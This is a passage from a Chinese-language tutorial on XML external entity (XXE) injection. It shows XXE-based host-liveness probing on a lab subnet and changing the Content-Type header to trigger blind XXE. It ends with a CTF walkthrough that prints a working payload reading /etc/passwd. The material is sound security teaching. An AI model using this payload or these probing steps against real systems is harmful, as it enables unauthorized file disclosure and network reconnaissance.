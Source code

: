 

## 6.1.**自动化探测主机存活**

这里我就不演示手动测试的了，只演示自动化的。

### 6.1.1.**设置变化内容**

这里选中主机的最后一位，设置为变化的内容。

![img](https://s2.loli.net/2023/03/13/bN5OJpioZP2velA.jpg) 

### 6.1.2.**设置载荷**

这里由于我就开一台虚拟机，是192.168.10.50，我们添加51、52，51与52我都没开启。

![img](https://s2.loli.net/2023/03/13/uHXS8ZWEC2RftoU.jpg) 

### 6.1.3.**查看攻击效果**

从攻击的效果的响应时长来看，也就50的通的，其它都是不通的。

![img](https://s2.loli.net/2023/03/13/N8bSdUXkuFCfDzn.jpg) 

# 7.**更改Content-Type类型**

这里就是解释在xxe的盲猜，在不确定是否能够执行的时候，通过修改Content-Type头，让其能够识别xml的语句，实现漏洞利用。更改Content-Type头类型有：application/xml与text/xml。

## 7.1.**CTF题目案例**

CTF-Jarvis-OJ-Web-XXE(CTF题)访问地址：http://web.jarvisoj.com:9882/

### 7.1.1.**抓包**

通过抓包发现该靶场的数据的传输方式是json。

![img](https://s2.loli.net/2023/03/13/47oArFayI8gfUsJ.jpg) 

### 7.1.2.**修改类型**

这里我们需要将类型修改为xml。

![img](https://s2.loli.net/2023/03/13/C8bJvNt4SndXpqE.jpg) 

### 7.1.3.**构建payload**

这里需要将原先下面输出的内容给删除，然后输入上payload。

payload：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [ 

<!ENTITY b SYSTEM "file:///etc/passwd" >

]>

<x>&b;</x>
```
